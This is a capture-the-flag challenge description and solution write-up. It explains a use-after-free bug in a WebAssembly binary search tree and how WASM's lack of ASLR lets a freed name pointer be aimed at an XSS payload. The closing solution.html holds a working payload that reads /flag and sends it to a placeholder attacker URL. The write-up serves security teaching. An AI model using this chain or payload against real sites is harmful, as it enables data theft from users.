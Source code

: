 # Wasmabism and Javaschriptianity

Author: zeyu2001

## Description

For more than two centuries, Wasmabism (Hex: 5761736d616269736d) has been the dominant faith of San Francisco Autonomous Irradiated Zone. It is an austere form of Javaschriptianity, that insists on a literal interpretation of the Book of Eich.

{ "use strict" Wasmabists believe that all those who don't practice their form of Javaschriptianity are heathens and enemies. }

-- Excerpted from Wikipedia, 2220.

*Admin bot is rate-limited. Test your solution locally using the Docker configurations provided.*

## Hints

1. Do what the filename of `pwn_me_pls.c` says. What are some classic pwn vulnerabilities?
2. It might be useful to read up on the standard algorithms of this data structure, then come back to how this particular one is implemented.


## Solution

Use after free (UAF) when deleting a node in the BST with both a left and right child, which is itself a right child of its parent.

If the deleted node is a right child, the parent's right pointer is never modified:

```c
temp->left = current->left;
if (parent->left == current) {
    parent->left = current->right;
}
free(current);
```

Since in WASM there is no ASLR, memory addresses are predictable. We could therefore chain the following steps:

1. Write an XSS payload to memory. This will not validate successfully, but will be written to memory nonetheless:

```c
ManOfCulture *createNewNode(char *name, int linesOfWASM) {
    char *newName = malloc(strlen(name) + 1);
    strcpy(newName, name);

    if (validateName(newName)) {
        return NULL;
    }

    ...

```

2. In the Chrome debug console, we could find out the memory address of `newName` by placing a breakpoint after the `malloc` call.

![Breakpoint](./breakpoint.png)

3. We find a suitable node to delete and replace. Notice that if the inserted node has the same `linesOfWASM` as an existing node, then the existing node is deleted and the new node is inserted.

```javascript
else if (res === 2) {
    console.log('Replacing and adding new person: ' + name + ' with ' + lines + ' lines');

    // Replace the old node with the new one by deleting it first
    Module.ccall('delete', 'number', ['number'], [lines]);

    // Add the new node
    Module.ccall('insert', 'number', ['string', 'number'], [name, lines])
}
```

When the new node is inserted, the user can overwrite the memory that was just freed by deleting the old node.

```c
char *newName = malloc(strlen(name) + 1);
strcpy(newName, name);
```

We thus need to simply insert the memory address of the XSS payload we found from step 2.

The `solution.html` file consists of a simple payload that performs the above. Since WASM does not have ASLR, this payload will work on any device.

```html
<html>
    <body>
        <script>
            window.open("http://app/?add=<img src=x onerror='fetch(\\\"/flag\\\").then(resp => resp.text()).then(flag => fetch(\\\"https\\\\72//<ATTACKER_URL>/\\\"%2Bbtoa(flag)))'>:1000,%68%0a%50%00:6000")
        </script>
    </body>
</html>
```

**Note**: To submit the solution, host it using a tunnelling service like `ngrok`. You would also need to change the exfiltration URL in the `solution.html` to your own `ngrok` URL.

After submitting this attacker-hosted exploit to the admin bot, we would be able to see the flag in our server logs.

![flag.png](./flag.png)